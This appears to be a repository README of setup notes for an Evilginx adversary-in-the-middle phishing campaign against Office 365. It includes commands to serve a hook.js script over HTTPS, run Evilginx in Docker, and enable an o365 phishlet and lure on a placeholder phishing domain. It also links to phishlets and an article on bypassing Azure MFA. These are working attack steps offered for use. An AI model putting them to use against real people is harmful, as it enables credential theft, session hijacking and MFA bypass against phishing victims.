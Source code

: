 ## Develop/Prototyping hook.js
npm install --global http-server
http-server ./src -S -C ./src/crt/cert.pem -K ./src/crt/key.pem

https://my-original-site.com:8080/original.html
https://my-phishing-site.com:8080/phishing.html

Start evilginx docker without starting the binary
``` 
docker build --tag 'evilginx' . && docker run -p 443:443 -it --entrypoint "/bin/bash" evilginx
```

## Create new pishlet & lure 
phishlets hostname o365 my-phishing-site.com
phishlets enable o365
lures create o365

## Todos
Add `"redirector": "/opt/evilginx/templates/fileshare.html"`

## ConfigReference
https://github.com/kgretzky/evilginx2/blob/master/core/config.go

## Links:
https://github.com/yudasm/WHfB-o365-Phishlet
https://github.com/An0nUD4Y/Evilginx2-Phishlets/blob/master/o365.yaml
https://medium.com/@salamsajid7/bypassing-azure-mfa-with-evilginx-d73add536d9f
https://www.naunet.eu/blog/9-how-to-use-evilginx-3-with-custom-certificates